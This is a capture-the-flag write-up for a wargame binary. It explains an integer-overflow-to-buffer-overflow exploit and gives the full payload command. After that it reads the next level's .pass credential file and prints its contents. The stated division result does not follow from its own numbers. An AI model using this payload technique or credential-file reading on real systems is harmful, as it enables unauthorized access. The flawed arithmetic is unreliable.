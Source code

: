 ### Download binary
``scp -P4242 bonus1@192.168.31.170:/home/bonus1/bonus1 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

We see that there's a buffer overflow on the memcpy, because we can control the size of the copy. This size is stored in argv[1]. The only problem is that we need to overflow a buffer of size 40, but we also have to pass a condition that ask argv[1] to be less than 10. After that argv[1] is multiplied by 4 and that is the size of our memcpy().

We will achieve this by doing a int overflow. Because the variable that hold argv[1] is an unsigned int, the int overflow is predictable.

----

### Building the payload

We will want something like this :

**Our size that buffer overflow into 44, the correct integer that we have to put in the var**

The second part is rather simple, it is hardcoded. The value required is 57 4f 4c 46, in little endian this will be reversed so 46 4c 4f 57. In ascii this can be tanslated to 'FLOW'.

For the first part, we need to divide the min integer - 44 by 4. Because we need to overflow the min integer after the multiplication and 44 is the size of the buffer we want to overflow + 4 bits, because we want to write FLOW. (4294967295 - 44) / 4 = -1073741812.75

Our final payload is :
``-1073741812 $(python -c "print('\x90' * 40 + 'FLOW')")``

----

#### Getting the flag

``./bonus1 -1073741812 $(python -c "print('\x90' * 40 + 'FLOW')")``
>

``whoami``
>bonus2

``cat /home/user/bonus2/.pass``
>579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

